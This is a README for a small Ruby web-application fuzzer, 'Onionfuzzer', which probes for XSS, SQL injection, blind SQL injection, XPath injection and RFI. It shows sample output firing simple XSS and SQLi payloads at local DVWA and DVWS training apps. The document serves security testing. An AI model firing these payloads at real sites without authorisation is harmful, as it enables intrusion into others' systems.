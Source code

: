 # Onionfuzzer

Simple fuzzer web app that support:
* xss
* sqli
* blind sqli
* xpath injection
* rfi

## Usage

Execute : 

    $ ruby -Ilib ./bin/onion-fuzzer fuzz <yml file>

Output :

```
$ ruby -Ilib ./bin/onion-fuzzer fuzz ~/tmp/endpoints.yml 
 [high] (XSS) `name=<script>alert('XSS')</script>`, GET http://127.0.0.1/DVWA-master/vulnerabilities/xss_r/
 [high] (XSS) `name=<body onload=alert('XSS')>`, GET http://127.0.0.1/DVWA-master/vulnerabilities/xss_r/
 [high] (XSS) `name=<img src=x onError=alert('XSS')>`, GET http://127.0.0.1/DVWA-master/vulnerabilities/xss_r/
 [critical] (SQLI) `id='"`, GET http://127.0.0.1/DVWA-master/vulnerabilities/sqli/
 [critical] (SQLI) `id='"`, POST http://127.0.0.1/DVWA-master/vulnerabilities/sqli/
 [critical] (SQLI) `id=#`, POST http://127.0.0.1/DVWA-master/vulnerabilities/sqli/
 [high] (BSQLI) `id=' OR SLEEP(1)='`, GET http://127.0.0.1/DVWA-master/vulnerabilities/sqli_blind
 ...

```

All payloads are in `storage/payloads/` and fin pattern in `storage/patterns/`. Feel free to add more ([SecLists](https://github.com/danielmiessler/SecLists) for example)

# Endpoints template
```
http://127.0.0.1/DVWA-master/vulnerabilities/sqli/session-input.php:
  sqli_high:
    post:
      params:
        id:
        Submit: Submit
      cookies:
        PHPSESSID: <...>
        security: high
      types: [xss, sqli]

http://127.0.0.1/dvws/vulnerabilities/xpath/xpath.php:
  dvws_xpath:
    get:
      params:
        login: admin
        password:
        form: submit
      types: [xpath]
...
```

Still in progress

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).


